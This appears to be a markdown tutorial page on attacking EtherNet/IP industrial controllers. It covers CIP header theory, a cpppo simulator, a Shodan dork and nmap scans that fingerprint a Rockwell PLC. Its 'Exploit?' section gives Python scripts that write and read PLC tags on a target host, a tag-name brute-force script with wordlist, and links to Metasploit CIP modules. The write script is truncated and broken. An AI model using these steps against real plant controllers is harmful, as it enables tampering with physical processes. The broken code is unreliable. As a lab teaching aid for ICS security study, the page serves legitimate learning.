

## EtherNet/IP - Theory


*CIP specifications are quite prescriptive about the packet structure. This means that every EtherNet/IP and CIP device has to comply with the commands within the specifications. The CIP Encapsulation header includes the fields within the EtherNet/IP header:*



  * **Command** - A two-byte integer that relates to a specific command per CIP specification. Within CIP, a device must accept commands that it does not recognize and handle this exception without breaking the connection.
  * **Length** - A two-byte integer that represents the length of the data portion of the packet; this field should be 0 for packets that contain no data, such as for a request packet.
  * **Session Handle** - The Session Handle is generated by the target device and returned to the originator of the session. This handle will be utilized in future communications with the target device.
  * **Status** - This status reflects the ability of the receiver of the packet to execute the given command that was sent. A 0 reflects the successful completion of the command. In all request packets, the status is 0. Other status code responses include
    * **0x0001** -> Invalid or unsupported command
    * **0x0002** -> Insufficient resources in the receiver to handle the command
    * **0x0003** -> Poorly formed or incorrect data
    * **0x0065** -> Received invalid data length
  * **Sender Context** -> The sender of the command will generate this six-byte value, and the receiver will return this value unchanged.
  * **Options** -> This value should always be 0; if it’s not 0, the packet will be discarded.
  * **Command-specific data** -> This field changes based on the command itself that was received and sent.

Quoted from *HACKING EXPOSED: ICS and SCADA Security Secrets and Solutions by C. E. Bodungen, B. L. Singer, A. Shbeeb, S. Hilt, K. Wilhoit*


## EtherNet/IP Simulator

To install a python implementation of EtherNet/IP Stack in a Ubuntu VM:

``` 
$ sudo -H pip install --upgrade cpppo
$ python -m cpppo.server.enip -v
python -m cpppo.server.enip -v
12-16 01:53:33.461 MainThread root     NORMAL   main       Loaded config files: []
12-16 01:53:33.461 MainThread enip.srv NORMAL   main       Delaying all responses by 0.0 seconds
12-16 01:53:33.462 MainThread root     NORMAL   main       EtherNet/IP Simulator: ('', 44818)
12-16 01:53:33.462 MainThread network  NORMAL   server_mai enip_srv server PID [26261] running on ('', 44818)
12-16 01:53:33.462 MainThread network  NORMAL   server_mai enip_srv server PID [26261] responding to external done/disable signal in object 139661755723408
12-16 01:53:33.462   Thread-1 enip.srv NORMAL   enip_srv   EtherNet/IP Server enip_UDP begins serving peer None
``` 

or start this way to enable an array of 1000 INT values. Tag is called *SCADA*:

``` 
python -m cpppo.server.enip SCADA=INT[1000] -v
``` 


## Dorks and detection

Use these to get started with shodan then you can extend fingerprints based on results!

``` 
Device type: Communications Adapter
port:44818
```

Usually, service is on port **44818 TCP** or sometime on **2222 UDP**. To discover devices in a specific subnet, nMap scan should look like:

``` 
$ nmap -p44818 172.16.252.1/24

Starting Nmap 7.01 ( https://nmap.org ) at 2017-12-16 11:58 EET

Nmap scan report for 172.16.252.134
Host is up (0.00062s latency).
PORT      STATE SERVICE
44818/tcp open  unknown
``` 

or use a passivie method to scan for live hosts then check ports: [scan.md](../scan.md)

and if you want to analyze the service itself: https://nmap.org/nsedoc/scripts/enip-info.html


``` 
$ nmap 172.16.252.134 -p 44818 --script=enip-info

Starting Nmap 7.01 ( https://nmap.org ) at 2017-12-16 11:55 EET
Nmap scan report for 172.16.252.134
Host is up (0.00028s latency).
PORT      STATE SERVICE
44818/tcp open  EtherNet-IP-2
| enip-info: 
|   Vendor: Rockwell Automation/Allen-Bradley (1)
|   Product Name: 1756-L61/B LOGIX5561
|   Serial Number: 0x006c061a
|   Device Type: Programmable Logic Controller (14)
|   Product Code: 54
|   Revision: 20.11
|_  Device IP: 0.0.0.0
``` 

To go deeper, check this out: https://github.com/paperwork/pyenip


## Exploit?

1. Use *RSLogix 5000 Software* - it will allow you to perform some direct operations and even rewrite firmware.

2. Use *cpppo* to read/write tags:

**Write a specific tag:**

```python
#!/usr/bin/env  python2

from cpppo.server.enip import client
import time

host = "192.168.179.131"
tags = [ "SCADA[13]", "SCADA[2]=(INT)37" ]

with client.connector( host=host ) as conn:
    for index,descr,op,reply,status,value in conn.pipeline(
            operations=client.parse_operations( tags ), depth=2 ):
``` 

**Read a specific tag:**

The trick in reading is that you have to already know the name of the tag you want to read! In the example, the tag name is "SCADA", the one used when simulator was started!

```python
#!/usr/bin/env  python2

from cpppo.server.enip import client
import time

host = "192.168.179.131"
tags = [ "SCADA[1]", "SCADA[2]" ]

with client.connector( host=host ) as conn:
    for index,descr,op,reply,status,value in conn.pipeline(
            operations=client.parse_operations( tags ), depth=2 ):
        print( "%s: %20s: %s" % ( time.ctime(), descr, value ))
```

The only difference is the *line 7*, where the value is defined!

**Find new tags using broute force**

```python
#!/usr/bin/env  python2

from cpppo.server.enip import client

host = "192.168.179.131"

with open('tagNames.txt') as f:
    tags = f.read().splitlines()                    # read all the tag names in the dictionary file, 
                                                    # stripping of newlines
with client.connector( host=host ) as conn:
    for tag in tags:
        req = conn.read( tag + '.ACC')              # adding .ACC to avoid errors on not DINT type tags

        assert conn.readable(timeout=1.0), "Failed to receive reply"

        reply = next(conn)
        for k, v in reply.items():                  # Scan through the Key and Value pairs returned
            if str(k).endswith('status'):
				if (v == 5):                        # Found a valid tag if the transaction status is 5 
                    print tag + " is a valid tag"
```

where *tagNames.txt* is a list of possible tags, one per line:

```
motor
pump
tank
valve
actuator
power
circuit
room
grid
panel
control
john
cena
password
username
user
pass
secret
safe
key
hidden
```

Usefull tools for this step:
  * https://github.com/kenexis/PortableICS-MITM
  * https://www.rapid7.com/db/modules/auxiliary/admin/scada/multi_cip_command
  * http://reversemode.com/downloads/logix_report_basecamp.pdf


## Conclusions

Resources and bibliography:

  * **Industrial Cybersecurity - Efficiently secure critical infrastructure systems** by *Pascal Ackerman*
  * **HACKING EXPOSED: ICS and SCADA Security Secrets and Solutions** by *C. E. Bodungen, B. L. Singer, A. Shbeeb, S. Hilt, K. Wilhoit*
  * Introduction into ICSs world: https://www.myplctraining.com/beginners-plc-overview-part-1-of-4-introduction-to-plcs/